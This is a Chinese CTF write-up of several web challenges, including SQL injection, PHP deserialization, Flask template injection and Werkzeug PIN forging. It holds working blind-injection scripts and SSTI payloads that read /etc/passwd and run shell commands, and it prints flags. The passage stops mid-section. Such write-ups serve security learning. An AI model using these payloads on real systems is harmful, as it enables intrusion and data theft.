


# 简单的招聘系统

打开题目是一个登入界面，是NULL的大佬出的题目

<!--more-->


简单的注册admin,admin登入，发现在Profile界面发现存在~~xss~~slelf-xss 还有一个admin界面，提示需要admin才能访问，不过只能获取自己cookie。这是一个坑。

实在是想不到怎么办。

后面想到登入界面可能存在注入,经过测试确实存在sql注入


编写脚本，在里面有坑，编码不一样

```php
# -*- coding: utf-8 -*-
# @Time    : 1/30/2020 9:42 PM
import requests

def get(payload):
    url = 'http://3f5788fc3e0d4cd29c4857bd75a3087e9c2af7a010664d15.changame.ichunqiu.com/index.php'
    data={
        'lname' : 'admin\' and '+payload+'#',
        'lpass' : 'admin'
    }
    cookies={
        'PHPSESSID' : 'bbvvjmdnv20oa9vpub65s4bkr4',
        '__jsluid_h' : 'a36781563be2b33ed295cec9257f1621'
    }
    html = requests.post(url,data=data,cookies=cookies)
    # print(html)
    return html

def binsea(s_payload,len=999):
    result = ''
    x=1
    while x <= len :
        error = 0
        left = 0
        right = 126
        while left <= right:
            mid = (left + right) / 2
            payload = "ascii(substr((%s),%d,1))>%d" % (s_payload,x, mid)

            res = get(payload)
            if res.status_code == 404 or res.status_code == 429:
                x=x-1
                error = 1
                break
            html=res.text
            # print('*-*-*-*-*-*', mid)
            if 'window.location.href="./zhaopin.php"' in html:
                left = mid +1
            else:
                right = mid -1
        mid = int((left + right + 1) / 2)
        if mid == 0 :
            break
        if error == 0 :
            result += chr(mid)
            print(result)
        x=x+1
    return result

def get_database():
    s_payload='database()'
    database = binsea(s_payload)
    print(database)

def get_tabls(db):
    s_payload = 'select(group_concat(table_name))from(information_schema.tables)where(table_schema=\''+db+'\')'
    tables=binsea(s_payload)

def get_columns(table):
    s_payload = 'select(group_concat(column_name))from(information_schema.columns)where(table_name=\''+table+'\')'
    columns=binsea(s_payload)

def get_data(columns,table):
    s_payload='select(group_concat('+columns+'))from('+table+')'
    password=binsea(s_payload)


# get_database() #nzhaopin

# get_tabls('nzhaopin') #backup,flag,user

# get_columns('flag') #id,flaaag

get_data('flaaag','flag') #flag{04418836-27b8-4f85-8c53-74f7e3e53350}
```

# ezupload

直接上传php后缀，一句话木马，蚁剑链接，执行/readflag

# 盲注

```php
<?php
    # flag在fl4g里
    include 'waf.php';
    header("Content-type: text/html; charset=utf-8"); 
    $db = new mysql();

    $id = $_GET['id'];

    if ($id) {
        if(check_sql($id)){
            exit();
        } else {
            $sql = "select * from flllllllag where id=$id";
            $db->query($sql);
        }
    }
    highlight_file(__FILE__);
```

题目给出了源码，经过测试过滤了如下字符


附上脚本

```python
# -*- coding: utf-8 -*-
import requests
import time

def get(payload):
    url = 'http://c4c11f9e99ba4142b9bfc8ed760a65a985f476a30a93485e.changame.ichunqiu.com/?id=0||'+payload+'%23'
    html = requests.get(url)
    # print(url)
    # print(html)
    # return html

def main():
    result=''
    for x in range(70):
        for c in range(32,126):
            payload="if(ascii(substr(fl4g, %d, 1)) ^ %d, sleep(0), sleep(2))" %(x,c)
            time1 = time.time()
            get(payload)
            time2 = time.time()
            sec = time2 - time1
            # print(sec,' ',chr(c))
            if sec >=1.5:
                result+=chr(c)
                print(result)
                break
            else:
                pass

if __name__ =='__main__':
    main()
```


# babyphp

打开还是一个登入界面，访问www.zip发现源码

```php
//index.php
<?php
require_once "lib.php";

if(isset($_GET['action'])){
	require_once(__DIR__."/".$_GET['action'].".php");
}
else{
	if($_SESSION['login']==1){
		echo "<script>window.location.href='./index.php?action=update'</script>";
	}
	else{
		echo "<script>window.location.href='./index.php?action=login'</script>";
	}
}
?>
```

```php
//lib.php
<?php
error_reporting(0);
session_start();
function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
class User
{
    public $id;
    public $age=null;
    public $nickname=null;
    public function login() {
        if(isset($_POST['username'])&&isset($_POST['password'])){
        $mysqli=new dbCtrl();
        $this->id=$mysqli->login('select id,password from user where username=?');
        if($this->id){
        $_SESSION['id']=$this->id;  
        $_SESSION['login']=1;
        echo "你的ID是".$_SESSION['id'];
        echo "你好！".$_SESSION['token'];
        echo "<script>window.location.href='./update.php'</script>";
        return $this->id;
        }
    }
}
    public function update(){
        $Info=unserialize($this->getNewinfo());
        $age=$Info->age;
        $nickname=$Info->nickname;
        $updateAction=new UpdateHelper($_SESSION['id'], $Info, "update user SET age=$age,nickname=$nickname where id=".$_SESSION['id']);
        //这个功能还没有写完 先占坑
    }
    public function getNewInfo(){
        $age=$_POST['age'];
        $nickname=$_POST['nickname'];
        return safe(serialize(new Info($age,$nickname)));
    }
    public function __destruct(){
        return file_get_contents($this->nickname);//危
    }
    public function __toString()
    {
        $this->nickname->update($this->age);
        return "0-0";
    }
}
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;
    public function __construct($age,$nickname){
        $this->age=$age;
        $this->nickname=$nickname;
    }   
    public function __call($name,$argument){
        echo $this->CtrlCase->login($argument[0]);
    }
}
Class UpdateHelper{
    public $id;
    public $newinfo;
    public $sql;
    public function __construct($newInfo,$sql){
        $newInfo=unserialize($newInfo);
        $upDate=new dbCtrl();
    }
    public function __destruct()
    {
        echo $this->sql;
    }
}
class dbCtrl
{
    public $hostname="127.0.0.1";
    public $dbuser="noob123";
    public $dbpass="noob123";
    public $database="noob123";
    public $name;
    public $password;
    public $mysqli;
    public $token;
    public function __construct()
    {
        $this->name=$_POST['username'];
        $this->password=$_POST['password'];
        $this->token=$_SESSION['token'];
    }
    public function login($sql)
    {
        $this->mysqli=new mysqli($this->hostname, $this->dbuser, $this->dbpass, $this->database);
        if ($this->mysqli->connect_error) {
            die("连接失败，错误:" . $this->mysqli->connect_error);
        }
        $result=$this->mysqli->prepare($sql);
        $result->bind_param('s', $this->name);
        $result->execute();
        $result->bind_result($idResult, $passwordResult);
        $result->fetch();
        $result->close();
        if ($this->token=='admin') {
            return $idResult;
        }
        if (!$idResult) {
            echo('用户不存在!');
            return false;
        }
        if (md5($this->password)!==$passwordResult) {
            echo('密码错误！');
            return false;
        }
        $_SESSION['token']=$this->name;
        return $idResult;
    }
    public function update($sql)
    {
        //还没来得及写
    }
}
```

```php
//login.php
<?php
require_once('lib.php');
?>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" /> 
<title>login</title>
<center>
	<form action="login.php" method="post" style="margin-top: 300">
		<h2>百万前端的用户信息管理系统</h2>
		<h3>半成品系统 留后门的程序员已经跑路</h3>
        		<input type="text" name="username" placeholder="UserName" required>
		<br>
		<input type="password" style="margin-top: 20" name="password" placeholder="password" required>
		<br>
		<button style="margin-top:20;" type="submit">登录</button>
		<br>
		大家记得做好防护</img>
		<br>
		<br>
<?php 
$user=new user();
if(isset($_POST['username'])){
	if(preg_match("/union|select|drop|delete|insert|\#|\%|\`|\@|\\\\/i", $_POST['username'])){
		die("<br>Damn you, hacker!");
	}
	if(preg_match("/union|select|drop|delete|insert|\#|\%|\`|\@|\\\\/i", $_POST['password'])){
		die("Damn you, hacker!");
	}
	$user->login();
}
?>
	</form>
</center>
```

```php
//update.php
<?php
require_once('lib.php');
echo '<html>
<meta charset="utf-8">
<title>update</title>
<h2>这是一个未完成的页面，上线时建议删除本页面</h2>
</html>';
if ($_SESSION['login']!=1){
	echo "你还没有登陆呢！";
}
$users=new User();
$users->update();
if($_SESSION['login']===1){
	require_once("flag.php");
	echo $flag;
}

?>

```

大意就是获取admin的密码登入就可以拿到flag。主要审计是lib.php

当时审的时候没有注意到`__toString`这个魔法方法，快结束的时候才注意到。主要还是太菜了

__\_\_toString:在 PHP 5.2.0 之前，\_\_toString() 方法只有在直接使用于 [echo](http://php.net/manual/zh/function.echo.php) 或 [print](http://php.net/manual/zh/function.print.php) 时才能生效。PHP 5.2.0 之后，则可以在任何字符串环境生效（例如通过 [printf()](http://php.net/manual/zh/function.printf.php)，使用 *%s* 修饰符），但不能用于非字符串环境（如使用 *%d* 修饰符）。自 PHP 5.2.0 起，如果将一个未定义 __toString() 方法的对象转换为字符串，会产生 `E_RECOVERABLE_ERROR` 级别的错误。

index.php是注入不了的。只能在update.php想办法

user.php中

```php
$users=new User();
$users->update();
```

去查看user类的update方法

```php
public function update(){
        $Info=unserialize($this->getNewinfo());
        $age=$Info->age;
        $nickname=$Info->nickname;
        $updateAction=new UpdateHelper($_SESSION['id'], $Info, "update user SET age=$age,nickname=$nickname where id=".$_SESSION['id']);
        //这个功能还没有写完 先占坑
    }
```

这里有unserialize函数，且$this->getNewinfo()可控，存在序列化漏洞

跳转到getNewinfo方法

```php
public function getNewInfo(){
        $age=$_POST['age'];
        $nickname=$_POST['nickname'];
        return safe(serialize(new Info($age,$nickname)));
    }
```

再跳转到Info类

```php
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;
    public function __construct($age,$nickname){
        $this->age=$age;
        $this->nickname=$nickname;
    }   
    public function __call($name,$argument){
        echo $this->CtrlCase->login($argument[0]);
    }
}
```

这里如果$this->CtrlCase是dbCtrl类的实例魔法方法__call可以调用到dbCtrl::logon（）

且在User::getNewInfo方法中调用了一个safe过滤函数

```php
function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
```

存在序列化字符串逃逸漏洞

执行完后，回到User::update方法

```php
public function update(){
        $Info=unserialize($this->getNewinfo());
        $age=$Info->age;
        $nickname=$Info->nickname;
        $updateAction=new UpdateHelper($_SESSION['id'], $Info, "update user SET age=$age,nickname=$nickname where id=".$_SESSION['id']);
        //这个功能还没有写完 先占坑
    }
```

跳转到UpdateHelper类

```php
Class UpdateHelper{
    public $id;
    public $newinfo;
    public $sql;
    public function __construct($newInfo,$sql){
        $newInfo=unserialize($newInfo);
        $upDate=new dbCtrl();
    }
    public function __destruct()
    {
        echo $this->sql;
    }
}
```

如果$this->sql是一个类对象会触发User::\_\_toString方法

```php
public function __toString()
{
    $this->nickname->update($this->age);
    return "0-0";
}
```

有update方法的只有dbCtrl类，但是Info类中有一个魔法调用

```php
public function __call($name,$argument){
        echo $this->CtrlCase->login($argument[0]);
    }
```

如果让User类中的$this->nickname为dbCtrl类的实例就调用到dbCtrl::login方法，而且$sql可控

```php
public function login($sql)
    {
        $this->mysqli=new mysqli($this->hostname, $this->dbuser, $this->dbpass, $this->database);
        if ($this->mysqli->connect_error) {
            die("连接失败，错误:" . $this->mysqli->connect_error);
        }
        $result=$this->mysqli->prepare($sql);
        $result->bind_param('s', $this->name);
        $result->execute();
        $result->bind_result($idResult, $passwordResult);
        $result->fetch();
        $result->close();
        if ($this->token=='admin') {
            return $idResult;
        }
        if (!$idResult) {
            echo('用户不存在!');
            return false;
        }
        if (md5($this->password)!==$passwordResult) {
            echo('密码错误！');
            return false;
        }
        $_SESSION['token']=$this->name;
        return $idResult;
    }
```

附上脚本

```php
<?php
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;


}

class User
{
    public $id;
    public $age;
    public $nickname;
    function __construct()
    {
        $this->age='select password,id from user where username=?';
        $this->nickname=new Info();
        $this->nickname->CtrlCase=new dbCtrl();
        $this->nickname->nickname='';

    }

}
class dbCtrl
{
    public $hostname="127.0.0.1";
    public $dbuser="root";
    public $dbpass="root";
    public $database="test";
    public $name='admin';
    public $password='1';
    public $mysqli;
    public $token='admin';

}
Class UpdateHelper
{
    public $id;
    public $newinfo;
    public $sql;
    function __construct()
    {
        $this->sql=new User();
    }
}

$test=new UpdateHelper();
$a=new Info();
$a->nickname='';
$a->CtrlCase=$test;
echo urldecode('%09');
echo serialize($a);
//O:4:"Info":3:{s:3:"age";N;s:8:"nickname";s:0:"
";s:8:"CtrlCase";O:12:"UpdateHelper":3:{s:2:"id";N;s:7:"newinfo";N;s:3:"sql";O:4:"User":3:{s:2:"id";N;s:3:"age";s:45:"select password,id from user where username=?";s:8:"nickname";O:4:"Info":3:{s:3:"age";N;s:8:"nickname";s:0:"";s:8:"CtrlCase";O:6:"dbCtrl":8:{s:8:"hostname";s:9:"127.0.0.1";s:6:"dbuser";s:4:"root";s:6:"dbpass";s:4:"root";s:8:"database";s:4:"test";s:4:"name";s:5:"admin";s:8:"password";s:1:"1";s:6:"mysqli";N;s:5:"token";s:5:"admin";}}}}}
```

使用相应长度的字符逃逸

```
age=&nickname=******************************************************************************************flagflag";s:8:"CtrlCase";O:12:"UpdateHelper":3:{s:2:"id";N;s:7:"newinfo";N;s:3:"sql";O:4:"User":3:{s:2:"id";N;s:3:"age";s:45:"select password,id from user where username=?";s:8:"nickname";O:4:"Info":3:{s:3:"age";N;s:8:"nickname";s:0:"";s:8:"CtrlCase";O:6:"dbCtrl":8:{s:8:"hostname";s:9:"127.0.0.1";s:6:"dbuser";s:4:"root";s:6:"dbpass";s:4:"root";s:8:"database";s:4:"test";s:4:"name";s:5:"admin";s:8:"password";s:1:"1";s:6:"mysqli";N;s:5:"token";s:5:"admin";}}}}}
```

得到MD5，解密，登录即可拿到flag


# easysqli_copy

打开题目就是源码

```python
<?php 
    function check($str)
    {
        if(preg_match('/union|select|mid|substr|and|or|sleep|benchmark|join|limit|#|-|\^|&|database/i',$str,$matches))
        {
            print_r($matches);
            return 0;
        }
        else
        {
            return 1;
        }
    }
    try
    {
        $db = new PDO('mysql:host=localhost;dbname=pdotest','root','******');
    } 
    catch(Exception $e)
    {
        echo $e->getMessage();
    }
    if(isset($_GET['id']))
    {
        $id = $_GET['id'];
    }
    else
    {
        $test = $db->query("select balabala from table1");
        $res = $test->fetch(PDO::FETCH_ASSOC);
        $id = $res['balabala'];
    }
    if(check($id))
    {
        $query = "select balabala from table1 where 1=?";
        $db->query("set names gbk");
        $row = $db->prepare($query);
        $row->bindParam(1,$id);
        $row->execute();
    }
```

没有能在题目结束之前解出来，后面看到一篇[文章](http://www.52bug.cn/hkjs/6152.html)，之前也看到一篇文章，不过只有上半部分。使用预编译加上16禁止就可以绕过

编写盲注脚本

```python
# -*- coding: utf-8 -*-
import requests
import time

def get(payload):
    url = 'http://localhost/1.php?id=1%df%27;set%20@x='+payload+';prepare%20a%20from%20@x;EXECUTE%20a;'
    html = requests.get(url)
    # print(url)
    # print(html)
    # return html

def str2hex(strs):
    he='0x'
    for x in strs:
        he+=hex(ord(x))[2:]
    # print(he)
    return he

def binsea(s_payload,len=999):
    result = ''
    x=1
    while x <= len :
        error = 0
        left = 0
        right = 126
        while left <= right:
            mid = (left + right) / 2
            payload = "select if(ascii(substr((%s),%d,1))>%d,sleep(1),1)" % (s_payload,x, mid)
            payload=str2hex(payload)
            t1=time.time()
            res = get(payload)
            # if res.status_code == 404 or res.status_code == 429:
            #     x=x-1
            #     error = 1
            #     break
            # html=res.text
            # print('*-*-*-*-*-*', mid)
            if time.time()-t1>=1:
                left = mid +1
            else:
                right = mid -1
        mid = int((left + right + 1) / 2)
        if mid == 0 :
            break
        if error == 0 :
            result += chr(mid)
            print(result)
        x=x+1
    return result

def get_database():
    s_payload='database()'
    database = binsea(s_payload)
    print(database)

def get_tabls(db):
    s_payload = 'select(group_concat(table_name))from(information_schema.tables)where(table_schema=\''+db+'\')'
    tables=binsea(s_payload)

def get_columns(table):
    s_payload = 'select(group_concat(column_name))from(information_schema.columns)where(table_name=\''+table+'\')'
    columns=binsea(s_payload)

def get_data(columns,table):
    s_payload='select group_concat('+columns+') from '+table
    password=binsea(s_payload)


get_data('flag','table1')
```


# blacklist

打开题目是一个提交框，是强网杯 2019随便注改过来的，但是禁止了set，prepare，alter，rename。改表，预处理是不行了。

测试时发现

```
preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);
```

存在堆叠注入

```
/?inject=1%27||id;show tables;desc words;desc FlagHere;
```

返回结果如下

```php+HTML
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

array(2) {
  [0]=>
  string(1) "2"
  [1]=>
  string(12) "miaomiaomiao"
}

array(2) {
  [0]=>
  string(6) "114514"
  [1]=>
  string(2) "ys"
}

array(1) {
  [0]=>
  string(8) "FlagHere"
}

array(1) {
  [0]=>
  string(5) "words"
}

array(6) {
  [0]=>
  string(2) "id"
  [1]=>
  string(7) "int(10)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}

array(6) {
  [0]=>
  string(4) "data"
  [1]=>
  string(11) "varchar(20)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}

array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```

flag 在FlagHere表中的flag列，经过测试语句应该是

```
'select data from words where id=$_GET[id]'
```

需要跨表查询，由于select被过滤，但是mysql还有一个handler可以使用（打比赛的时候没有找到，太可惜了）

```
payload：1'; handler FlagHere open; handler FlagHere read first; handler FlagHere close;#
```

如果表名是数字需要使用反撇号包裹。


# Ezsqli

 是一个提交窗口，经过测试过滤了如下字符0



后面又测试了一次，发现单独的or没有被过滤，*or就被过滤了


information_schema.tables可以使用`sys.schema_table_statistics_with_buffer`或`sys.schema_table_statistics_with_buffer`代替。

数据使用无列名注入

首先盲注获取数据库名

附上脚本

```python
# -*- coding: utf-8 -*-
# @Time    : 2/24/2020 11:21 AM

import requests
import time
import string

def str2hex(strs):
    hexs='0x'
    for x in range(len(strs)):
        hexs+=hex(ord(strs[x]))[2:]
    # print(hexs)
    return hexs

def get(payload):
    url='http://0445a30e864f4cd8a6e4a54b3043663dd97491883a5749df.changame.ichunqiu.com/'
    # print(url)

    data={
        'id':'0^('+payload+')'
    }
    html = requests.post(url,data=data)
    print(data)
    return html

def binsea(s_payload,len=999):
    result = ''
    x=1
    while x <= len :
        error = 0
        left = 0
        right = 126
        while left <= right:
            mid = (left + right) / 2
            payload = "ascii(substr((%s),%d,1))>%d" % (s_payload,x, mid)
            # t1=time.time()
            res = get(payload)
            if res.status_code == 404 or res.status_code == 429:
                x=x-1
                error = 1
                break
            html=res.text
            # print(html,'*-*-*-*-*-*', mid,'    ',payload)
            if 'Nu1L' in html:
                left = mid +1
            else:
                right = mid -1
        mid = int((left + right + 1) / 2)
        if mid == 0 :
            break
        if error == 0 :
            result += chr(mid)
            print(result)
        x=x+1
    return result

def get_database():
    s_payload='database()'
    database = binsea(s_payload)
    # print(database)

def get_tables(db):
    db=str2hex(db)
    s_payload = 'select(group_concat(table_name))from(sys.schema_table_statistics_with_buffer)where(table_schema='+db+')'
    tables=binsea(s_payload)

def get_columns(table):
    table = str2hex(table)
    s_payload = 'select(group_concat(column_name))from(information_schema.columns)where(table_name='+table+')'
    columns=binsea(s_payload)

def get_data(columns,table):
    s_payload='select(group_concat('+columns+'))from('+table+')'
    password=binsea2(s_payload)

def binsea2(length=999):
    result = ''
    x=1
    dic='-'+'0123456789'+string.ascii_lowercase+'{}~'
    while x <= length :
        error = 0
        for each in range(len(dic)):
            payload = "select (select 1,{})>(select * from f1ag_1s_h3r3_hhhhh)".format(str2hex(result+dic[each]))
            print(result+dic[each])
            # t1=time.time()
            res = get(payload)
            if res.status_code == 404 or res.status_code == 429:
                x=x-1
                error = 1
                break
            html=res.text
            # print(html[0:-6])
            if error == 0 and 'Nu1L' in html:
                result +=dic[each-1]
                print(result)
                break
        x = x + 1
    return result


# get_database() #ctf

# get_tables('ctf')#users233333333333333,f1ag_1s_h3r3_hhhhh

binsea2()
```


# Flaskapp

打开题目

在解密中随意输入几个，让其报错，爆出部分代码，发现是一个flask框架写的base64的加解密小工具运行在PYTHON3.7。

```python
@app.route('/decode',methods=['POST','GET'])

def decode():
    if request.values.get('text') :
        text = request.values.get("text")
        text_decode = base64.b64decode(text.encode())
        tmp = "结果 ： {0}".format(text_decode.decode())
        if waf(tmp) :
            flash("no no no !!")
            return redirect(url_for('decode'))
        res =  render_template_string(tmp)
        flash( res )
        return redirect(url_for('decode'))

    else :
         text = ""
```

是模板注入，然后还有一个过滤，还能打开python交互界面但是有密码


任意文件读取

```pyhton
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}
base64后
e3soKS5fX2NsYXNzX18uX19iYXNlc19fWzBdLl9fc3ViY2xhc3Nlc19fKClbNzVdLl9faW5pdF9fLl9fZ2xvYmFsc19fLl9fYnVpbHRpbnNfX1snb3BlbiddKCcvZXRjL3Bhc3N3ZCcpLnJlYWQoKX19
```

结果为



提取/app/app.py所有代码

```python
from flask import Flask,render_template_string
from flask import render_template,request,flash,redirect,url_for
from flask_wtf import FlaskForm
from wtforms import StringField, SubmitField
from wtforms.validators import DataRequired
from flask_bootstrap import Bootstrap
import base64

app = Flask(__name__)
app.config['SECRET_KEY'] = 's_e_c_r_e_t_k_e_y'
bootstrap = Bootstrap(app)

class NameForm(FlaskForm):
    text = StringField('BASE64加密',validators= [DataRequired()])
    submit = SubmitField('提交')
class NameForm1(FlaskForm):
    text = StringField('BASE64解密',validators= [DataRequired()])
    submit = SubmitField('提交')

def waf(str):
    black_list = ["flag","os","system","popen","import","eval","chr","request",
                  "subprocess","commands","socket","hex","base64","*","?"]
    for x in black_list :
        if x in str.lower() :
            return 1


@app.route('/hint',methods=['GET'])
def hint():
    txt = "失败乃成功之母！！"
    return render_template("hint.html",txt = txt)


@app.route('/',methods=['POST','GET'])
def encode():
    if request.values.get('text') :
        text = request.values.get("text")
        text_decode = base64.b64encode(text.encode())
        tmp = "结果  :{0}".format(str(text_decode.decode()))
        res =  render_template_string(tmp)
        flash(tmp)
        return redirect(url_for('encode'))

    else :
        text = ""
        form = NameForm(text)
        return render_template("index.html",form = form ,method = "加密" ,img = "flask.png")

@app.route('/decode',methods=['POST','GET'])
def decode():
    if request.values.get('text') :
        text = request.values.get("text")
        text_decode = base64.b64decode(text.encode())
        tmp = "结果 ： {0}".format(text_decode.decode())
        if waf(tmp) :
            flash("no no no !!")
            return redirect(url_for('decode'))
        res =  render_template_string(tmp)
        flash( res )
        return redirect(url_for('decode'))

    else :
        text = ""
        form = NameForm1(text)
        return render_template("index.html",form = form, method = "解密" , img = "flask1.png")


@app.route('/<name>',methods=['GET'])
def not_found(name):
    return render_template("404.html",name = name)

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000, debug=True)
```

可以看见黑名单

```python
["flag","os","system","popen","import","eval","chr","request",
                  "subprocess","commands","socket","hex","base64","*","?"]
```


直接上Vulhub的payload修改一下

```python


  
  
    
      {{ b['eva'+'l']('__imp'+'ort__("o"+"s").pop'+'en("id").read()') }}
    
  
  


```

查看目录  ls

```bash
app bin boot dev etc home lib lib64 media mnt opt proc requirements.txt root run sbin srv sys this_is_the_flag.txt tmp usr var 
```

查看flag   cat this_is_the_fl"+"ag.txt

```
flag{93df69f0-3005-414f-a119-c5562af1b167} 
```

想通过计算PIN，但是获取所有信息后计算出来不一致。


### 另一种解法

计算PIN [参考链接](https://xz.aliyun.com/t/2553)

需要获取六个变量的值

```python
username # 用户名

modname # flask.app

getattr(app, '__name__', getattr(app.__class__, '__name__')) # Flask

getattr(mod, '__file__', None) # flask目录下的一个app.py的绝对路径

uuid.getnode() # mac地址十进制  02:42:ae:00:cf:18->2485410385688

get_machine_id() # /etc/machine-id   这里是/proc/self/cgroup  
12:blkio:/docker/29747fd95662eedc0f932bdacd32401f736d1ebff306b24046b30b43aa287b76 
```

计算脚本

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'flaskweb',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.7/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485410385688',# str(uuid.getnode()),  /sys/class/net/eth0/address
    '29747fd95662eedc0f932bdacd32401f736d1ebff306b24046b30b43aa287b76'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

拿到pin登录

```python
[console ready]>>> import os
>>> os.popen("ls /").read()
'app\nbin\nboot\ndev\netc\nhome\nlib\nlib64\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\nthis_is_the_flag.txt\ntmp\nusr\nvar\n'  
>>> os.popen("cat /this_is_the_flag.txt").read()
'flag{033e49d3-6201-41c6-9725-e95898cbc3d9}\n'
```


# node_game

打开题目有两个选择


选择Only admin can use this

是一个文件上传的界面


选择Click here to get the source查看源码

````js
var express = require('express');
var app = express();
var fs = require('fs');
var path = require('path');
var http = require('http');
var pug = require('pug');
var morgan = require('morgan');
const multer = require('multer');


app.use(multer({dest: './dist'}).array('file'));
app.use(morgan('short'));
app.use("/uploads",express.static(path.join(__dirname, '/uploads')))
app.use("/template",express.static(path.join(__dirname, '/template')))


app.get('/', function(req, res) {
    var action = req.query.action?req.query.action:"index";
    if( action.includes("/") || action.includes("\\") ){
        res.send("Errrrr, You have been Blocked");
    }
    file = path.join(__dirname + '/template/'+ action +'.pug');
    var html = pug.renderFile(file);
    res.send(html);
});

app.post('/file_upload', function(req, res){
    var ip = req.connection.remoteAddress;
    var obj = {
        msg: '',
    }
    if (!ip.includes('127.0.0.1')) {
        obj.msg="only admin's ip can use it"
        res.send(JSON.stringify(obj));
        return 
    }
    fs.readFile(req.files[0].path, function(err, data){
        if(err){
            obj.msg = 'upload failed';
            res.send(JSON.stringify(obj));
        }else{
            var file_path = '/uploads/' + req.files[0].mimetype +"/";
            var file_name = req.files[0].originalname
            var dir_file = __dirname + file_path + file_name
            if(!fs.existsSync(__dirname + file_path)){
                try {
                    fs.mkdirSync(__dirname + file_path)
                } catch (error) {
                    obj.msg = "file type error";
                    res.send(JSON.stringify(obj));
                    return
                }
            }
            try {
                fs.writeFileSync(dir_file,data)
                obj = {
                    msg: 'upload success',
                    filename: file_path + file_name
                } 
            } catch (error) {
                obj.msg = 'upload failed';
            }
            res.send(JSON.stringify(obj));    
        }
    })
})

app.get('/source', function(req, res) {
    res.sendFile(path.join(__dirname + '/template/source.txt'));
});


app.get('/core', function(req, res) {
    var q = req.query.q;
    var resp = "";
    if (q) {
        var url = 'http://localhost:8081/source?' + q
        console.log(url)  //终端打印url
        var trigger = blacklist(url);
        if (trigger === true) {
            res.send("<p>error occurs!</p>");
        } else {
            try {
                http.get(url, function(resp) {
                    resp.setEncoding('utf8');
                    resp.on('error', function(err) {
                    if (err.code === "ECONNRESET") {
                     console.log("Timeout occurs");
                     return;
                    }
                   });

                    resp.on('data', function(chunk) {
                        try {
                         resps = chunk.toString();
                         res.send(resps);
                        }catch (e) {
                           res.send(e.message);
                        }
 
                    }).on('error', (e) => {
                         res.send(e.message);});
                });
            } catch (error) {
                console.log(error);
            }
        }
    } else {
        res.send("search param 'q' missing!");
    }
})

function blacklist(url) {    //定义黑名单
    var evilwords = ["global", "process","mainModule","require","root","child_process","exec","\"","'","!"];
    var arrayLen = evilwords.length;
    for (var i = 0; i < arrayLen; i++) {
        const trigger = url.includes(evilwords[i]);
        if (trigger === true) {
            return true
        }
    }
}

var server = app.listen(8081, function() {
    var host = server.address().address
    var port = server.address().port
    console.log("Example app listening at http://%s:%s", host, port)  //在终端打印信息
})

````

得知大概是要通过ssrf上传包含flag的pug文件拿到flag

在文件上传界面中，要保证地址是127.0.0.1

```js
var ip = req.connection.remoteAddress;
var obj = {
     msg: '',
}
if (!ip.includes('127.0.0.1')) {
     obj.msg="only admin's ip can use it"
     res.send(JSON.stringify(obj));
     return 
 }
```


# ezExpress

打开题目是一个登录界面


随意输入一下看看404有什么东西，得到了网页的绝对地址/app


扫描发现有源码www.zip,先查看route下的源码

```js
 function safeKeyword(keyword) {   //不能包含admin
  if(keyword.match(/(admin)/is)) {
      return keyword
  }
  return undefined
}

router.post('/login', function (req, res) {
  if(req.body.Submit=="register")
   if(safeKeyword(req.body.userid)){      //调用safeKeyword函数进行过滤
    res.end("<script>alert('forbid word');history.go(-1);</script>") 
   }
    req.session.user={   //将用户名，密码写入session
      'user':req.body.userid.toUpperCase(),   //将输入转成大写
      'passwd': req.body.pwd,
      'isLogin':false
    }{
    res.redirect('/'); 
  }
  else if(req.body.Submit=="login"){
    if(!req.session.user){res.end("<script>alert('register first');history.go(-1);</script>")}
    if(req.session.user.user==req.body.userid&&req.body.pwd==req.session.user.passwd){
      req.session.user.isLogin=true;
    }
    else{
      res.end("<script>alert('error passwd');history.go(-1);</script>")
    }
  
  }
```

觉得`toUpperCase`有点可疑，[查找资料](https://xz.aliyun.com/t/7184#toc-11)后发现

